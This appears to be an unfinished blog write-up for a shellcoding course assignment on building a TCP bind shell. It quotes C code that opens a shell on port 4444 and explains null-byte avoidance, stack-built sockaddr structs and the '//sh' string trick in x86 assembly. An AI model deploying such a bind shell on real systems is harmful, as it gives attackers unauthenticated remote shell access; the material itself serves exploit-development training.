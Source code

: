 # WIP - Assignment 1 - Bind Shell

TODO: Intro to this article... assembly by hand, then writing a shellcode generator.

## What does a Bind Shell need to do?

A high level overview of a Bind Shell is that it creates a socket, binds that
socket to a port, listens for a connection, accepts a connect, then duplicates
STDIN, STDOUT, and STDERR to the file descriptor of the connected socket, and
finally execs /bin/sh (or another shell). One of my favorite free resources for shellcoding is the tutorial series by Azeria Labs for exploitation on the ARM architecture. I outlined what my shellcode needed to accomplish by looking at Azeria's C version of a [bind shell](https://azeria-labs.com/tcp-bind-shell-in-assembly-arm-32-bit/):
```C
    // Create new TCP socket 
    host_sockid = socket(PF_INET, SOCK_STREAM, 0); 

    // Initialize sockaddr struct to bind socket using it 
    hostaddr.sin_family = AF_INET;                  // server socket type address family = internet protocol address
    hostaddr.sin_port = htons(4444);                // server port, converted to network byte order
    hostaddr.sin_addr.s_addr = htonl(INADDR_ANY);   // listen to any address, converted to network byte order

    // Bind socket to IP/Port in sockaddr struct 
    bind(host_sockid, (struct sockaddr*) &hostaddr, sizeof(hostaddr)); 

    // Listen for incoming connections 
    listen(host_sockid, 2); 

    // Accept incoming connection 
    client_sockid = accept(host_sockid, NULL, NULL); 

    // Duplicate file descriptors for STDIN, STDOUT and STDERR 
    dup2(client_sockid, 0); 
    dup2(client_sockid, 1); 
    dup2(client_sockid, 2); 

    // Execute /bin/sh 
    execve("/bin/sh", NULL, NULL); 
    close(host_sockid);
```
TODO: Say more about this.

## First Approach: Writing Assembly by Hand

Writing unobfuscated shellcode in x86 assembly is straightforward. It consists of moving the appropriate values into registers for a series of system calls. A quick ```man 2 syscall``` reveals the calling convention and Application Binary Interface (ABI). However, a few issues require some forethought: 
1. Avoiding null bytes (0x00) or other bad characters if needed
    - XOR a register with itself to zero it out, e.g. ```xor eax, eax``` instead of ```mov eax, 0```
    - Write to 8- or 16-bit registers to avoid leading zeros, e.g. ```mov al, 10``` instead of ```mov eax, 10```
2. Building a *sockaddr* struct on the stack
3. Strings, because our code is position independent

### Headache #1 - Building a sockaddr
Re-write this better later: I tripped over the ```struct sockaddr *``` required as the second argument to the *bind* syscall. What order were the address family, port, and IP address to be passed? Where was the padding?

I used a "Guess and Check" approach, writing assembly to build various permutations of this on the stack:

| value     | location  | meaning               |
|------     | --------- | -----                 |
|0x02005555 | rsp       | AF\_INET, port 0x5555 |
|0x00000000 | rsp + 4   | INADDR\_ANY           |

This *seemed* right. However, when I compiled and ran ```printf("size = %d\n",
sizeof(struct sockaddr));``` and saw the struct consisted of 16 bytes, that
suggest *four* 32-bit (4 byte) values, not two. Sadly, I got stuck at this juncture and looked for how someone else did it:

Another SLAE student [https://github.com/ricardojoserf/slae32/tree/master/a1_Shell_Bind_Tcp](https://github.com/ricardojoserf/slae32/tree/master/a1_Shell_Bind_Tcp)
pushed first the IPv4 address, then the port number as a *word*, and lastly the *sin\_family* as a *word*.  

TODO: draw a diagram of how it actually looked on the stack

Creating the parameters to *execve* was simple. The important first parameter was to create the null-terminated string "/bin/sh\0". To obviate the need to pinpoint a specific byte for NULLing, I used the **extra slashes in paths** technique to pad the string to two 32-bit strings: "/bin" and "//sh". These I converted to hex values with Python:
```
Python 3.5.2 (default, Oct  7 2020, 17:19:02) 
[GCC 5.4.0 20160609] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> code = "//sh"
>>> rev = code[::-1]
>>> rev.encode("utf-8").hex()
'68732f2f'
>>> code = "/bin"
>>> rev = code[::-1]
>>> rev.encode("utf-8").hex()
'6e69622f'
```

## Second Approach: Shellcode Generator with Configurable Port Number
TODO: talk about quirk with accept4 syscall, added flag param; syscall number
for accept existed but it wasn't supported

